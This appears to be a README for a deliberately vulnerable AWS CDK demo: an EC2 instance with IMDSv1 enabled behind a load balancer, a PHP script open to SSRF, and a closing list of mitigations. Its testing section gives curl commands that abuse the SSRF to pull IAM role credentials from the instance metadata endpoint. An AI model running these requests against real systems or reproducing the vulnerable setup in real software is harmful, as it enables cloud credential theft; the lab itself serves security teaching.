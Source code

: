# ALB + Private EC2 SSRF Vulnerability Demo

This CDK project demonstrates SSRF (Server-Side Request Forgery) vulnerability against IMDSv1 in a private subnet EC2 instance behind an Application Load Balancer.

## ⚠️ Security Warning

**This project is for educational and testing purposes only.** It intentionally creates vulnerable infrastructure with:
- IMDSv1 enabled (vulnerable to SSRF attacks)
- A PHP script with SSRF vulnerability
- Insecure network configurations

**DO NOT deploy this in production environments.**

## Architecture

- VPC with public and private subnets
- Application Load Balancer in public subnet
- EC2 instance in private subnet with IMDSv1 enabled
- Vulnerable PHP script for SSRF testing
- SSM endpoints for remote access

```mermaid
flowchart LR
  Internet
  
  subgraph aws["AWS Account"]
    subgraph VPC["VPC (10.0.0.0/16)"]
      subgraph publicsubnet
        ALB@{img: "https://api.iconify.design/logos/aws-elb.svg", label: "Application Load Balancer", pos: "b", w: 60, h: 60, constraint: "on"}

        NAT@{img: "https://api.iconify.design/logos/aws-vpc.svg", label: "NAT Gateway", pos: "b", w: 60, h: 60, constraint: "on"}
      end
        
      subgraph privatesubnet
        EC2@{img: "https://api.iconify.design/logos/aws-ec2.svg", label: "Instance<br>IMDSv1 Enabled<br>Vulnerable PHP", pos: "b", w: 60, h: 60, constraint: "on"}

        SSM_EP@{img: "https://api.iconify.design/logos/aws-systems-manager.svg", label: "SSM VPC Endpoints", pos: "b", w: 60, h: 60, constraint: "on"}
      end
    end
    
    S3@{img: "https://api.iconify.design/logos/aws-s3.svg", label: "Bucket<br>secret.txt", pos: "b", w: 60, h: 60, constraint: "on"}
  end
  
  Internet ~~~ publicsubnet ~~~ privatesubnet
  
  Internet --> ALB
  ALB --> EC2
  EC2 --> S3
  EC2 -.-> SSM_EP <-.-> admin
  
  class VPC vpc
  
  classDef group fill:none,stroke:none
```


## Prerequisites

- AWS CLI configured
- AWS CDK installed (`npm install -g aws-cdk`)
- Node.js and npm

## Deployment

```bash
npm install
cdk bootstrap
cdk deploy
```

## Testing SSRF Attack

After deployment, get the ALB DNS name from the output and test:

```bash
# Get IAM role credentials via SSRF
curl "http://[ALB_DNS_NAME]/fetch.php?url=http://169.254.169.254/latest/meta-data/iam/security-credentials/"

# Get specific role credentials
curl "http://[ALB_DNS_NAME]/fetch.php?url=http://169.254.169.254/latest/meta-data/iam/security-credentials/[ROLE_NAME]"
```

## Cleanup

```bash
cdk destroy
```

## Security Mitigation

To secure this setup:
1. Enable IMDSv2 only (`requireImdsv2: true`)
2. Remove the vulnerable PHP script
3. Implement proper input validation
4. Use WAF to block malicious requests